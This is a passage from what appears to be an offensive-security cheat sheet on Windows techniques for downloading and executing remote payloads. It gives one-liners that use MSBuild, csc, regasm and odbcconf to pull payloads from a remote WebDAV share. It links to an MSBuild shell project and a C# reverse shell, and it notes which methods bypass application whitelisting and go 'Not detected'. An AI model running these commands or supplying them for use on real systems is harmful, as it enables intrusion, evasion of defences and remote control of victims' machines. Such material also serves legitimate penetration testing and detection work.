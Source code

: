 ```

**You can download & execute very easily a Koadic zombie using the stager wmic**

## Msbuild

- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|From here]]

```
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```
```
You can use this technique to bypass Application Whitelisting and Powershell.exe restrictions. As you will be prompted with a PS shell.\
Just download this and execute it: [[https://raw.githubusercontent.com/Cn33liz/MSBuildShell/master/MSBuildShell.csproj|https://raw.githubusercontent.com/Cn33liz/MSBuildShell/master/MSBuildShell.csproj]]

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
```
**Not detected**

## **CSC**

Compile C# code in the victim machine.

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shell.exe shell.cs
```
```
You can download a basic C# reverse shell from here: [[https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc|https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc]]

**Not deteted**

## **Regasm/Regsvc**

- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|From here]]

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```
```
**I haven't tried it**

[[https://gist.github.com/Arno0x/71ea3afb412ec1a5490c657e58449182|**https://gist.github.com/Arno0x/71ea3afb412ec1a5490c657e58449182**]]

## Odbcconf

- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|From here]]

```bash
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```
```
**I haven't tried it**

[[https://gist.github.com/Arno0x/45043f0676a55baf484cbcd080bbf7c2|**https://gist.github.com/Arno0x/45043f0676a55baf484cbcd080bbf7c2**]]

## Powershell Shells
```